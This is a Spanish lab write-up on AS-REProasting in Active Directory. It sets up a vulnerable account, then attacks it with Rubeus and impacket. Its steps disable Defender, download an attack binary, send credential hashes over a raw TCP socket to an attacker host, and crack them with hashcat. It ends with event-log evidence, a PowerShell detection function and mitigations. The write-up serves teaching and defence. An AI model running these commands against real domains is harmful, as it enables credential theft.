




# AS-REProasting

## ¿Qué es este ataque?

AS-REProasting es una técnica de ataque contra el protocolo de autenticación Kerberos en entornos Active Directory. Permite a un atacante obtener hashes de contraseñas de cuentas de usuario sin necesidad de estar autenticado en el dominio.

Cuando una cuenta tiene habilitada la opción **"No requiere preautenticación Kerberos"**, el Controlador de Dominio responde a cualquier solicitud AS-REQ con un ticket AS-REP cifrado con la contraseña del usuario. El atacante puede capturar ese ticket y crackearlo offline.

```
Atacante (sin credenciales)
    ↓
Envía AS-REQ al DC por la cuenta svc_backup
    ↓
DC responde con AS-REP cifrado con la contraseña de svc_backup
    ↓
Atacante crackea el hash offline con hashcat
    ↓
Obtiene la contraseña en texto claro
```

---

## ¿Por qué existe esta vulnerabilidad?

Esta configuración vulnerable tiene su origen en problemas de compatibilidad:

- **Aplicaciones legacy**: Implementaciones antiguas de Kerberos (v4) que no soportaban preautenticación requerían que se desactivara esta opción para funcionar.
- **Servicios Linux/Unix integrados con AD**: Implementaciones como MIT Kerberos o Heimdal mal configuradas, o servicios como NFS, SSH con GSSAPI antiguo, pedían explícitamente esta configuración.
- **Software de terceros**: Algunos ERPs y bases de datos antiguas incluían en su manual de instalación la instrucción de desactivar la preautenticación Kerberos.

El problema es que esa configuración se aplicaba, el sistema funcionaba, y nadie la revertía. En auditorías reales es común encontrar cuentas con esta opción marcada desde hace más de 10 años sin que nadie lo supiera.

---

## Entorno de laboratorio

| Máquina | Rol | IP |
|---------|-----|----|
| DC01 | Controlador de dominio (víctima) | 100.100.100.50 |
| WS01 | Cliente Windows (atacante interno) | 100.100.100.40 |
| Kali | Atacante externo | 100.100.100.20 |

---

## Paso 1 — Configurar la vulnerabilidad

En el DC, abrir **Usuarios y equipos de Active Directory**:

```
Click derecho en svc_backup → Propiedades
→ Pestaña "Cuenta"
→ Opciones de cuenta
→ Marcar: "No requiere preautenticación Kerberos"
→ Aceptar
```



---

## Paso 2 — Ataque desde WS01 (atacante interno con Rubeus)

Iniciar sesión en WS01 con cualquier cuenta de dominio (en este caso `lamine`).

Descargar Rubeus y desactivar el Defender:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

iwr https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -OutFile C:\Users\Public\Rubeus.exe
```

Ejecutar el ataque:

```powershell
C:\Users\Public\Rubeus.exe asreproast /format:hashcat /outfile:C:\Users\Public\hashes.txt
```

Rubeus busca automáticamente todas las cuentas del dominio con `UF_DONT_REQUIRE_PREAUTH` y obtiene sus hashes.

Resultado:

```
[*] Action: AS-REP Roasting
[*] SamAccountName : svc_backup
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\Public\hashes.txt
```


---

## Paso 3 — Exfiltración del hash a Kali via Netcat

En Kali, levantar un listener:

```bash
nc -lvp 4444 > hashes.txt
```

En WS01, enviar el archivo:

```powershell
$client = New-Object Net.Sockets.TcpClient("100.100.100.20", 4444)
$stream = $client.GetStream()
$bytes = [IO.File]::ReadAllBytes("C:\Users\Public\hashes.txt")
$stream.Write($bytes, 0, $bytes.Length)
$client.Close()
```


---

## Paso 4 — Ataque desde Kali (atacante externo con impacket)

Sin necesidad de estar en el dominio, solo con acceso de red al DC:

```bash
impacket-GetNPUsers adlab.local/ -no-pass -usersfile usuarios.txt -dc-ip 100.100.100.50 -format hashcat -outputfile hashes_kali.txt
```

Resultado:

```
$krb5asrep$23$svc_backup@ADLAB.LOCAL:139f48730d806a...
[-] User svc_sql doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User cucurella doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Solo `svc_backup` es vulnerable. El resto de usuarios tienen la preautenticación habilitada correctamente.


---

## Paso 5 — Crackeo del hash con hashcat

```bash
echo "Password123!" > custom.txt
hashcat -m 18200 hashes.txt custom.txt --force
```



Resultado:

```
$krb5asrep$23$svc_backup@adlab.local:...:Password123!

Status: Cracked
```



---

## Paso 6 — Evidencia en los logs del DC

El ataque deja rastro en el **Visor de eventos** del DC:

```
Registro: Security
Event ID: 4768 — Se solicitó un vale de autenticación (TGT) de Kerberos
```

Los campos clave que identifican el ataque:

| Campo | Valor normal | Valor AS-REProasting |
|-------|-------------|----------------------|
| Tipo de autenticación previa | 2 | **0** |
| Tipo de cifrado de vale | 0x12 (AES) | **0x17 (RC4)** |
| Código de resultado | 0x0 | 0x0 |

Un `PreAuthType = 0` significa que el DC entregó el ticket **sin verificar la identidad del solicitante**. Esa es la firma del ataque.




---

## Paso 7 — Detección con PowerShell

```powershell
function Get-ASREProastingAttempts {
    param(
        [int]$HorasAtras = 24
    )

    $tiempo = (Get-Date).AddHours(-$HorasAtras)

    $eventos = Get-WinEvent -FilterHashtable @{
        LogName   = 'Security'
        Id        = 4768
        StartTime = $tiempo
    } -ErrorAction SilentlyContinue

    $alertas = @()

    foreach ($evento in $eventos) {
        $xml = [xml]$evento.ToXml()
        $datos = $xml.Event.EventData.Data

        $cuenta   = ($datos | Where-Object { $_.Name -eq 'TargetUserName' }).'#text'
        $cifrado  = ($datos | Where-Object { $_.Name -eq 'TicketEncryptionType' }).'#text'
        $preauth  = ($datos | Where-Object { $_.Name -eq 'PreAuthType' }).'#text'
        $ipOrigen = ($datos | Where-Object { $_.Name -eq 'IpAddress' }).'#text'

        if ($preauth -eq '0' -and $cifrado -eq '0x17') {
            $alertas += [PSCustomObject]@{
                Fecha     = $evento.TimeCreated
                Cuenta    = $cuenta
                Cifrado   = $cifrado
                PreAuth   = $preauth
                IPOrigen  = $ipOrigen
                Severidad = 'ALTA'
                Ataque    = 'AS-REProasting'
            }
        }
    }

    return $alertas
}
```

Resultado al ejecutarlo:

```
[!] AS-REProasting detectado:

Fecha              Cuenta      Cifrado  PreAuth  IPOrigen              Severidad  Ataque
27/06/2026 11:44  svc_backup  0x17     0        ::ffff:100.100.100.20  ALTA      AS-REProasting
```


---

## Mitigación

1. **Revisar todas las cuentas con esta opción habilitada:**

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth
```

2. **Deshabilitar la opción** en todas las cuentas que no la necesiten estrictamente.

3. **Si una cuenta legacy la requiere**, asegurarse de que tiene una contraseña larga y compleja (más de 25 caracteres) que no sea crackeable con diccionarios.

4. **Monitorizar el Event ID 4768** con `PreAuthType = 0` como parte de la detección continua.

---

## Archivos

- [`detection.ps1`](detection.ps1) — Módulo de detección PowerShell
